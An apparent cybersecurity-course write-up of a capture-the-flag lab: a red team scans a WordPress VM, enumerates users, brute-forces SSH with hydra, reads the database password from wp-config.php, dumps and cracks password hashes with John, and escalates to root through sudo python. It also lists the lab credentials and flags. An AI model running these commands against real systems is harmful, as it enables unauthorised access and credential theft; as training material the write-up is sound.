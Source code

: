 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
Command: $ nmap -sV -sC -O 192.168.1.0/24
  ```
 <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Target-1_nmap.png" alt="Target1_IP" style="height: 400px; width:600px;"/>


This scan identifies the services below as potential points of entry:
   Target 1  
     1. Port 22/TCP Open SSH       
     2. Port 80/TCP Open HTTP       
     3. Port 111/TCP Open rcpbind       
     4. Port 139/TCP Open netbios-ssn     
     5. Port 445/TCP Open netbios-ssn  


The following vulnerabilities were identified on each target:     
   Target 1  
    1. User Enumeration (WordPress site)  
  -    a. The stop-user-enumeration plugin before 1.3.8 for WordPress has XSS. [CVE-2017-18536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-18536/ "CVE-2017-18536")  
  -    b. WordPress Core < 4.7.1 - Username Enumeration Vulnerability CVE-2017-5487 Scanner [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487/ "CVE-2017-5487")  
    2. Weak user Passwords - guess or use hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh      
    3. Unsalted user Password Hash (WordPress)  
    4. Misconfiguration of User Privileges/Privilege Escalation with Python.    

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `Flag1: b9bbcb33ellb80be759c4e844862482d` _hash value_
    - **Exploit Used**
      - WPScan to enumerate users of target1 WordPress site.
      - wpscan --url http://192.168.1.110 --enumerate u
       <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wpscan_michael.png?raw=true" alt="WPScan Users"/>             

      - Brute force, `guess`, or hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh  
      - Use guess password `michael` for user michael.    
      ssh michael@192.168.1.110  
      pwd: michael  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/michael_ID.png?raw=true" alt="michael_ID"/>  
  - egrep flag* service.html
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-1_service-html.png?raw=true" alt="Flag1"/>  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/service-htmp-footer-flag1.png?raw=true" alt src="source.html" style="height: 400px; width:600px;"/>


  - `Flag2: fc3fd58dcdad9ab23faca6e9a3e581c`   
    - **Exploit Used**
      -  Same exploit covered in flag1 to gain access
      - Commands:
      - ssh michael@192.168.1.110
      - pw: michael
      - cd /var/www - transverse the directory.
      - find / i-name flag*
      - cat flag2.txt
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-2.png?raw=true" alt="Flag2"/>  

  - `Flag3: afc01ab56b50591e7dccf93122770cd2`   
        - **Exploit Used**        
          - Continue using michael's credentials; locate the wp-config.php, and use mysql to explore the database.     
          - Once found, the wp-config.php displayed the db_password in plain text.

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config-php--location.png?raw=true" alt="wp_location"/>  
          - cat wp-config-php       
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config_PWD.png?raw=true" alt="wp_passwd"/>  

-        `Flag3` was found in the wp_posts table in the wordpress database.
           - Commands:
              - Connected to mysql: -u root -p'R@v3nSecurity'
              - show databases;
              - use wordpress;
              - show tables;
              - select * from wp_posts;  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/myswl-logon.png?raw=true" alt="mysql-login"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_databases.png?raw=true" alt="mysql_databases"/>    
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_TABLES.png?raw=true" alt="mysql_TABLES"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-3_mysql_wp_posts.png?raw=true"/>

  - `Flag4: 715dea6c055b9fe3337544932f2941ce`:   
            - **Exploit Used**    
               - Use of weak salted hashes and Python root escalation Privileges.  
               - Still using michaels credentials, gather the password hashes to crack.  
               - The usernames and password hashes were copied to the kali server in a file (wp_hashes.txt), and cracked with John.  
               - select * from wp_users;  
  <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_hashes.png?raw=true"/>

 - john wp_hashes.text

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Steven_Pink84.png?raw=true" style="height: 400px; width:600px;"/>

              - use Steven credentials to ssh to target1 and escalate privileges to find flag4.  
              - ssh steven@192.168.1.110
              - pw: pink84
              - sudo -l
              - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’   

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/sudo-stephen.png?raw=true"/>

              - cd /root
              - ls
              - cat flag4.txt      

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Flag-4.png?raw=true"/>
